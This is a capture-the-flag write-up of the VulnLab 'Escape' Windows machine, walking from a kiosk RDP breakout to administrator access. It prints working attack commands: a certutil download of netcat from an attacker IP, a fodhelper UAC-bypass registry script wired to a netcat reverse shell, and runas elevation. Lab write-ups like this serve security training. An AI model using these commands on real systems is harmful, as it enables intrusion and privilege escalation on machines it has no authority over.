

# Escape

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Escape** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3389 --min-rate=1000 10.10.120.101
```



Now let’s try to connect to the RDP.

```bash
xfreerdp /v:10.10.120.101 -sec-nla
```


> Notice that the message say to connect to the machine using
username: KisokUser0
password: no password
> 

so let’s connect to the RDP using the user KioskUser0


Now let’s go and open the edge bowser and search for the C directory

```bash
file:///c:/
```


notice that there is a folder named admin so let’s navigate to it!


notice that we got the password of the administrator.

Now let’s get the user flag by navigating to the users folder

```bash
file:///C:/Users/kioskUser0/Desktop/user_07eb46.txt
```


Now let’s get the admin password using the Remote Desktop Plus application.

Now let’s import the profile.xml to the application


Now let’s open BulltesPassView that will help recovering the password from bullet format


> Now notice that now know that got the credentails
username: admin
password: Twisting3021
> 

Now let’s go back to Microsoft edge and retrieve the cmd

```bash
file:///C:/Windows/System32/cmd.exe
```


now let’s view it in the download file


now rename the executable to msedge as this is allowed application to run


Now let’s run it


As we see we got access to the cmd!

Now let’s use run as and open cmd as the admin user

```bash
runas /user:Escape\admin cmd.exe
```


now let’s see our new user.


Now let’s see our privileges

```bash
whoami /all
```


> Since we are in admin group admin medium integrity level we can do UAC bypass and gain full access
> 

First let’s transfer net cat.

```bash
certutil -urlcache -f http://10.8.5.233/nc.exe nc.exe
```


Now let’s go and abuse the UAC and get full access reverse shell.

Start a listener

```bash
nc -lvnp 1337 
```


Now let’s gain a shell

```bash
powerhsell -ep bypass
```

and paste this PowerShell script in the terminal

```bash
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.5.233 1337 -e cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```


Now let’s go back to our listener.


we didn’t get anything 😞

But! we can run cmd to get admin privilege 

```bash
Start-Process -Verb runas cmd.exe
```


Now let’s see our privs.

```bash
whoami /priv
```


and we got the full access

now let’s go to the root directory

```bash
cd c:\users\administrator\desktop
```


amazing we got the root flag!


That’s it for the **Escape** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX